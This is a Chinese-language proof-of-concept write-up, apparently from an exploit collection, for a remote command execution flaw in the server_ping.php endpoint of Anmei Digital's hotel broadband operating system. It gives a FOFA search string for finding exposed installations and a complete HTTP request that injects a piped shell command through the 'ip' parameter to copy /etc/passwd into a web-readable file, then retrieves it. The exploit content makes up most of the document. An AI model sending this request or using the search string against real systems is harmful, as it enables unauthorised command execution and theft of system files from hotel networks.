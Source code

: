 # 安美酒店宽带运营系统server_ping远程命令执行漏洞

# 一、漏洞简介
安美数字 酒店宽带运营系统 server_ping.php 存在远程命令执行漏洞，漏洞文件中ip参数未过滤造成命令执行。

# 二、影响版本
+ 安美数字 酒店宽带运营系统

# 三、资产测绘
+ fofa`"酒店宽带运营"`
+ 特征

![1716733888763-054f1cd7-9341-4200-9146-ac1991441834.png](./img/ttotGXeiX4zpQ9fZ/1716733888763-054f1cd7-9341-4200-9146-ac1991441834-819573.png)

# 四、漏洞复现
```rust
GET /manager/radius/server_ping.php?ip=127.0.0.1|cat%20/etc/passwd>../../stc.txt&id=1 HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer:
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=noei1ghcv9rqgp58jf79991n04
```

![1716733909837-15f70e37-1a79-41f6-963f-9cf8f0baac48.png](./img/ttotGXeiX4zpQ9fZ/1716733909837-15f70e37-1a79-41f6-963f-9cf8f0baac48-535338.png)

```rust
/stc.txt
```

![1716733930150-c5db087e-acac-4280-be9c-23405a570807.png](./img/ttotGXeiX4zpQ9fZ/1716733930150-c5db087e-acac-4280-be9c-23405a570807-124394.png)



> 更新: 2024-06-01 11:14:22  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gvrg0qu31td8ab01>
